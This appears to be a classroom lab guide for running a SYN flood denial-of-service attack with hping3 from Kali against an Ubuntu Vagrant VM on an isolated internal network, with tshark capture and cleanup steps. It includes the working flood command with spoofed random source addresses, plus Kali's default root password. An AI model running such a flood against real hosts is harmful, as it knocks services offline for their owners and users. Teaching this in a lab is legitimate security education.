 = Executing a SYN Flood Denial of Service Attack

== Prerequisits

* Kali Linux virtual machine installed
* Vagrant installed


== Basic Kali Configuration

Start your Kali virtual machine. 

1. At the login screen, click and drag up to unlock the window.
2. For the user, enter `root`.
3. The password is `toor` (root backwards).
4. Open a command terminal. Run the following command to set the IP address and subnet mask.
+
```
ifconfig eth0 192.168.2.5 netmask 255.255.255.0
ifconfig
```

The output of `ifconfig` should look similar to the following figure. The IP address and subnet mask should match.

image::kali-ip-config.png[]

Keep the terminal window open until you verify connectivity with the victim.

== Victim Client Configuration

In this section, you will create a client VM that will be exploited.

1. Create a new folder on your computer.
2. Hold shift, right-click, and choose "Open command window here."
3. Run the following command to create a Vagrantfile:
+
```
vagrant init ubuntu/Trusty64
```

4. You should see the following output:
+
```
Management with Untangle>vagrant init ubuntu/trusty64
A `Vagrantfile` has been placed in this directory. You are now
ready to 'vagrant up' your first virtual environment! Please read
the comments in the Vagrantfile as well as documentation on
`vagrantup.com` for more information on using Vagrant.
```

5. Edit the Vagrantfile in Notepad or any other text editor. Replace the entire contents of the file with the following text:
+
```
# -*- mode: ruby -*-
# vi: set ft=ruby :

Vagrant.configure(2) do |config|
  config.vm.box = "ubuntu/trusty64"
  config.vm.network "private_network", ip: "192.168.2.10", virtualbox__intnet: true
end
```

6. Save the file.
7. Run the following commands from the command prompt:
+
```
vagrant up
vagrant ssh
```

8. Run `ifconfig` to see the client's configuration. The IP address of `eth1` should be 192.168.2.10/24.
+
```
ifconfig
```

You should see output similar to the following. The IP address and subnet mask should match the screenshot.

image::victim-ip-config.png[]

If the IP address was not set properly, run the following command to update it now.

```
ifconfig eth1 192.168.2.10 netmask 255.255.255.0
```

To capture network activity, you will need to install `tshark`---a command line version of Wireshark. Run the following command to install it, conforming your choice when prompted.

```
sudo apt-get install tshark
```

== Verify Connectivity

The Kali instance and the victim instance should be on the name subnet. Test basic connectivity from each machine using `ping`.

From the victim, run the following command.

```
ping 192.168.2.5
```

The ping should be successful.

image::victim-ping-kali.png[]

Run the following command in Kali.

```
ping 192.168.2.10
```

image::kali-ping-victim.png[]

The ping should be successful. Once your IP configuration is correct, you can close the terminal window in the Kali instance by running `exit`.

Ensure that the instances can ping each other before proceeding to the next step. If the computers cannot communicate, verify and correct the following settings:

  - Ensure the IP addresses and subnet masks are correct (192.168.2.10/24 for eth1 on victim, 192.168.2.5/24 for eth0 on Kali).
  - Ensure that the network adapters are set to "internal" for eth1 on victim and eth0 on Kali.
  - If you enabled any firewalls on the victim or Kali, disable them.

== Executing a SYN Flood Attack with hping3

1. In the `victim`, run the following command.
+
```
tshark -i eth1 -a duration:100
```

2. In Kali, run the following command to start an attack. (Make sure `-S` uses a capital `S`.) Press control+c to stop the command after half a second to a second to stop the attack (unless you want to lock up your computer--remember, this is a denial of service attack with the purpose of making a machine unresponsive.)
+
```
root@kali:~# hping3 -d 120 -S -w 64 -p 80 --flood --rand-source 192.168.2.10
```

The options mean:
  - `d`: data size
  - S: send SYN only
  - w: TCP window size
  - p: port
  - rand-source: spoof the source IP address
  - 192.168.2.10: the target of the attack

The output on the victim's console should look similar to the following figure.

image::victim-packet-capture.png[]

How many packets were sent in the duration of your attack? How many packets were sent per second?

== Cleanup

In Kali, close all windows and close the machine. Save the machine state or power it off---the decision is up to you.

If you want to save your Ubuntu server, run the following command to exit the SSH session and save the machine state. (Note--no need to enter the dollar sign or greater-than symbols--they merely indicate the prompt that you should see when running the commands.)

```
$ exit
> vagrant suspend
```

If you want to delete your Ubuntu server, run the following commands to exit the SSH session and delete the machine completely.

```
$ exit
> vagrant destroy
```